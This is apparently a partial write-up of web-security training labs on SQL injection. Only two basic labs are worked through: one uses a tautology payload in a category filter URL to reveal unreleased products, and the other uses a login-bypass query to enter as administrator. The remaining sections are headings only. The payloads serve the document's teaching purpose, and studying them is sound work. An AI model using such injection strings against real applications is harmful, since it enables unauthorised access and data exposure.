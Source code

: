 # SQL injection

## Basics

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

----

Trying `/product?productId=7'`:

![Basic SQLi](../../_static/images/sqli-basic1.png)

Details page product 7:

![Basic SQLi](../../_static/images/sqli-basic2.png)

Adding a `'` gives:

![Basic SQLi](../../_static/images/sqli-basic3.png)

Trying `Category=Pets'`:

![Basic SQLi](../../_static/images/sqli-basic4.png)

Adding a `'`:

![Basic SQLi](../../_static/images/sqli-basic5.png)

Bingo! Create payload:

    https://<random-string>.web-security-academy.net/filter?category=Pets' OR 1=1 -- 

### SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function. To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user. 

----

SQL:

    SELECT * FROM users WHERE username = 'administrator' AND password = '' OR 1=1 --

Or:

![Basic SQLi](../../_static/images/sqli-basic6.png)

## Practitioner

### SQL injection UNION attack, determining the number of columns returned by the query

### SQL injection UNION attack, finding a column containing text

### SQL injection UNION attack, retrieving data from other tables

### SQL injection UNION attack, retrieving multiple values in a single column

### SQL injection attack, querying the database type and version on Oracle

### SQL injection attack, querying the database type and version on MySQL and Microsoft

### SQL injection attack, listing the database contents on non-Oracle databases

### SQL injection attack, listing the database contents on Oracle

### Blind SQL injection with conditional responses

### Blind SQL injection with conditional errors

### Blind SQL injection with time delays

### Blind SQL injection with time delays and information retrieval

### Blind SQL injection with out-of-band interaction

### Blind SQL injection with out-of-band data exfiltration

### SQL injection with filter bypass via XML encoding
